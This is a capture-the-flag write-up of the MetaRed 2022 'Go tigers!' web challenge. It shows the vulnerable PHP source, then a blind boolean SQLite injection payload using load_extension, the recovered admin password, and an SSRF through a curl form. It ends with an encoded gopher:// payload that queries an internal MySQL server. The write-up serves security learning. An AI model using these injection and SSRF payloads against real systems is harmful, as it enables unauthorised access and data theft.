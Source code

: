 # Writeup-Go-Tigers-
### MetaRed CTF Argentina 2022

## Go tigers!
 <img src=img/19.png class="center">

When visiting the website, we can see two input fields. The first one require an id.If the id is valid it displays the id and the username else it displays nothing.The second field was an input that read the content of a file using the function file_get_contents().

 <img src=img/1.png class="center">

We tried to trigger an error using a quote and fortuantely we got an error from the database.The error reveals that a function called supersafeWaf() was filtering our input.
<img src=img/2.png class="center">

(I discovered later that this was useless since my friend LAM managed to read the admin password from ../tiger.db using the second input , but hey i enjoyed tortuaring myself to manually perform a blind boolean based sql injection and that was fun!)

 <img src=img/18.png class="center">

Looking at the code of "index.php", we find out that ther suspersafeWaf() function actually filters some statements like 'select' , 'order' .. 
```
<?php
ini_set('display_errors', 'on');

class TigerClass {
    public function superSafeWAF($sql) {
        $pdo = new SQLite3('../tiger.db', SQLITE3_OPEN_READONLY);
        $safesql = implode (['select',  'union', 'order', 'by', 'from', 'group', 'insert'], '|');
        $sql = preg_replace ('/' . $safesql . '/i', '', $sql);
        $query = 'SELECT id, user FROM tigers WHERE id=' . $sql . ' LIMIT 1';
        $tigers = $pdo->query($query);
        $sol = $tigers->fetchArray(SQLITE3_ASSOC);
        if ($sol) {
            return $sol;
        }
        return false;
        }
    }
```

We tried out some SQLi payloads to see that this was a blind boolean based sql injection , with an sqlite3 database.
Our payload was **1 AND CASE WHEN substr(user,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/5.png class="center">

Since the username having an id 1 was 'admin' we didn't get an error and the data corresponding was displayed. 
Our final payload was **1 AND CASE WHEN substr(pass,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/6.png class="center">
 <img src=img/20.png class="center">

**--> username : admin**
**--> password : This_password_is_very_safe!**

We discovered that there is an admin page (admin.php) that require a username and a password.So paasing those creds to the form we got to the page :

 <img src=img/9.png class="center">

There was just one input that accepts a url. Reading the source code of the admin.php (using the second input field in the index.php) a **curl** caught our attention, so maybe there is an SSRF here!  

```
function str_contains($haystack, $needle) {
					return $needle !== '' && mb_strpos($haystack, $needle) !== false;
				}
				$not_protocol_smuggling = !str_contains(strtolower($_POST['post_url']),"file");

				if (isset($_SESSION['auth']) && isset($_POST['post_check']) && $not_protocol_smuggling) { exec(escapeshellcmd("timeout 5 curl " . escapeshellarg($_POST['post_url']) . " --output -"), $out); echo "<pre>"; print_r($out); echo "</pre>"; } ?>
			</div>
			<br>
			<!--Acordarse de Fixear el BD user juanperez  -->
		<h4>DB Status Check</h4>
			<div id="login">
				<form class="form-signin" action="<?php basename($_SERVER['PHP_SELF']); ?>" method="post" style="border:0px;">
				<input class="btn  btn-primary" type="submit" name='db_check' value = "Check" style='margin-top:10px;'/>
				</form>
				<?php if (isset($_SESSION['auth']) && isset($_POST['db_check'])) { exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out); echo "<pre>"; print_r($out); echo "</pre>"; } ?>
			</div>
```


**What is SSRF?**
Server-Side Request Forgery (SSRF) refers to an attack wherein an attacker is able to send a crafted request from a vulnerable web application. SSRF is usually used to target internal systems behind firewalls that are normally inaccessible to an attacker from the external network.

All protocols other than file:// was valid since a delay of 5s took place. Reading the source code of the 'admin.php' once again a comment cought our attention **'Acordarse de Fixear el BD user juanperez'** which means 'Remember to Fix the BD user juanperez'
ehhhmmm ... So maybe there is another database running on internal!
our hypothese was confirmed when we saw the line of code **{ exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out);**. That means that the othe button was checking the whole time if this database is online or not. To communicate with this databse we decided to use the protocol **Gopher**.

**What is Gopher?**
Gopher is an application-layer protocol that provides the ability to extract and view Web documents stored on remote Web servers. Gopher was conceived in 1991 as one of the Internet’s first data/file access protocols to run on top of a TCP/IP network. It was developed at the University of Minnesota and is named after the school’s mascot.
We can use gopher:// to communicate with the MySQL database.

Basic agreement format: URL:gopher ://<host>:<port>/<gopher-path>_ Followed by TCP data flow
Tring the payload : **gopher://mysqlsafedb.com:3306/_Hello**
 
 <img src=img/11.png class="center">

Using gopherus, we were able to generate the following sql query : SELECT schema_name FROM information_schema.schemata

 <img src=img/16.png class="center">


 ## FLAG
 
Our final payload was : **gopher://mysqlsafedb.com:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%34%00%00%00%03%73%65%6c%65%63%74%20%73%63%68%65%6d%61%5f%6e%61%6d%65%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%73%63%68%65%6d%61%74%61%01%00%00%00%01**
And the flag was the name of a database other than 'information_schema.schemata'


 <img src=img/17.png class="center">

 ## Some Ressources:

 - https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html
 - https://github.com/tarunkant/Gopherus



